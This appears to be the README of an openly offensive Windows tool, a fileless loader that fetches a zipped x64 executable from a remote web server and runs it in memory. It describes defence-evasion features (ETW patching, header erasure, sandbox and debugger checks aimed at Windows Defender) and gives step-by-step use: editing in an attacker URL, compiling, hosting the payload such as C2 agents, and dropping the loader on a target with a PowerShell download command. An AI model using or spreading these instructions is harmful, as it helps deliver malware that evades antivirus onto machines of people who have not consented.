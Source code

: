 ### Fileless-Remote-PE-Loader
--------------------------------------
This loader tool enables direct in-memory execution of a x64 PE file (exe embeded in a zip file) retrieved from a remote web server.
It implements several defense evasion techniques (e.g. fileless delivery + reflective PE loading, ETW bypass, sandbox checks) designed to bypass antivirus solutions such as Windows Defender.

#### FEATURES
- Fileless delivery + Reflective PE loading (Downloads, decompresses, and executes in-memory a remote x64 PE) 
- ETW bypass in user-mode (patching EtwEventWrite functions)
- PE header erasure (After mapping the PE into memory, the DOS + NT headers are zeroed out to reduce forensic visibility) 
- Memory protection hardening (Applies section-specific memory permissions i.e. first writable, then switched to execute-only)
- Basic sandbox detection and evasion (Delayed execution + Terminates execution if a debugger is detected)
- Compatible with many offensive security tools (x64 EXE, unmanaged code, no GUI) such as C2 agents (e.g. Sliver, Havoc), ...


#### USAGE
- STEP 1 - Modify the source code by removing all comments and 'printf' statements, etc. Then, add into the main() function the URL of your ZIP file embeding the offensive security tool that you want to execute.
```
Edit the main() function - Examples:
 - BYTE *zipData = DownloadZipToMemory("http://Your-IP-address/file.zip", &zipSize);
   or
 - BYTE *zipData = DownloadZipToMemory("https://website/file.zip", &zipSize);
```

- STEP 2 - Compile the source code (for example with Visual Studio 2022 Developer Command Prompt v17.14.14).  
           <i/>Note: the tool uses the 'miniz.c' library to perform ZIP decompression operations (https://github.com/richgel999/miniz)</i>
```
Example:
c:\path-to-project\Fileless-Remote-PE-Loader> cl /TC Fileless-Remote-PE-Loader.c miniz.c /link wininet.lib /MACHINE:X64 /OUT:Fileless-Remote-PE-Loader.exe Icon.res
```

- STEP 3 - Host on a web server the ZIP file embeding the offensive security tool (x64 PE) that you want to execute
		
- STEP 4 - Upload the tool 'Fileless-Remote-PE-Loader.exe' on a target Windows machine and use it to download, unzip and execute in-memory your remote compressed offensive security tool
```
1. Download the loader
c:\temp> powershell -c "wget -uri https://IP/Fileless-Remote-PE-Loader.exe - OutFile C:\temp\Fileless-Remote-PE-Loader.exe

2. Run the loader with the arguments to pass to the PE
c:\temp> Fileless-Remote-PE-Loader.exe arg1 arg2 [...]
	or
2.bis Run the loader without argument
c:\temp> Fileless-Remote-PE-Loader.exe
No argument was provided. Press 'Enter' to continue, or press 'Ctrl+C' to exit and relaunch with arguments.
```

#### OPSEC improvement (to do)
- Implement direct syscalls to improve stealth beacause the use of 'VirtualAlloc' with 'PAGE_READWRITE' then 'VirtualProtect' to executable presents a 'medium' risk of detection.
  
#### LICENSE
GNU General Public License v3.0


